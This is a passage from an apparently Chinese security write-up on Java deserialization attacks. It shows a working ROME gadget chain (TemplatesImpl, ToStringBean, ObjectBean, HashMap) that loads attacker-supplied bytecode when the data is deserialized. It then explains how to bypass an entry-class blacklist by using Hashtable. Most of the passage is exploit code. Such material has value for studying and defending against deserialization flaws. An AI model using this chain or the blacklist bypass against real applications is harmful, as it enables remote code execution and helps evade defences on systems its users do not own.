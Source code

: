 ```plain
        byte[] code = Files.readAllBytes(Paths.get("D://Tomcat/CC/target/classes/EXPROME/Demo.class"));
        byte[][] codes = {code};
        TemplatesImpl templates = new TemplatesImpl();
        Class tc = templates.getClass();
        setValue(templates,"_name","Ic4F1ame");
        setValue(templates, "_tfactory", new TransformerFactoryImpl());
        setValue(templates,"_bytecodes",codes);


        ToStringBean toStringBean = new ToStringBean(Templates.class,new ConstantTransformer(1));

        ObjectBean objectBean = new ObjectBean(ToStringBean.class,toStringBean);


        HashMap<Object,Object> hashMap = new HashMap<>();
        hashMap.put(objectBean,"123");

        Field field = toStringBean.getClass().getDeclaredField("_obj");
        field.setAccessible(true);
        field.set(toStringBean,templates);
//        serialize(hashMap);
        unserialize("ser.bin");
    }


    public static void serialize(Object obj) throws IOException {
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.bin"));
        oos.writeObject(obj);
    }

    public static Object unserialize(String Filename) throws IOException,ClassNotFoundException{
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
        Object obj = ois.readObject();
        return obj;
    }
}
```

## EXP(HashTable)：

这里针对如果入口类黑名单中存在HashMap类，我们这里能够用HashTable进行绕过，我们可以发现HashTable的readObject地方，对每个key和value都会调用reconstitutionPut()函数：

[![](assets/1701612185-d9af99dc47c3d2105a64eb216a1551d9.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230807155246-658cea7a-34f7-1.png)
